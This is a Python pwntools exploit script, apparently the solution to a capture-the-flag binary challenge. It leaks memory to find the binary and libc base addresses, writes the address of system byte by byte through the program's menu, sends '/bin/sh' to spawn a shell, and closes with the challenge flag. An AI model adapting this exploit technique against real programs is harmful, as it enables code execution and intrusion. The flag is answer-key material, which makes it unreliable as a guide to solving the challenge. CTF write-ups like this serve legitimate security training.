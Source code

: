 ```py
main_leak_off = ((0x00007fffffffdd98 - 0x7fffffffdc38)//8 + 5)-10   
main = (int(leak_address(main_leak_off),base=16)&(~0xfff))+0x1000*-1


elf.address = main
log.success(f"bin_base: 0x{elf.address:012x}")

log.info(f"\tprintf:  0x{s2p(leak_string(elf.got.printf)):012x} ")    # 0x7fe5ce422c90
log.info(f"\tputs:    0x{s2p(leak_string(elf.got.puts)):012x} "  )    # 0x7fe5ce445420
log.info(f"\tread:    0x{s2p(leak_string(elf.got.read)):012x} "  )    # 0x7fe5ce4cf1e0


libc.address = s2p(leak_string(elf.got.puts)) - libc.symbols["_IO_puts"]
log.success(f"libc_base: 0x{libc.address:012x}")

for i in range(5,-1,-1):
    x = ((libc.symbols.system & (0xff <<i*8) ) >> (i*8))
    p.sendlineafter(b'> ',f'3 {x}'.encode())            # [taunt] to set the least significat byte on banter
    if i!=0:
        p.sendlineafter(b'> ',b'2')                     # [lob] to left shift it by 8 bits

payload = str(banter_off).encode()
payload+= b' '
payload+= f'/bin/sh\0'.encode()

p.sendlineafter(b'> ',payload)
p.success('popping a shell')
p.clean()
p.interactive()

# wctf{y0u_c4nt_b3_s3r1ous_appr0ved_g4dg3t5_0nly}
```
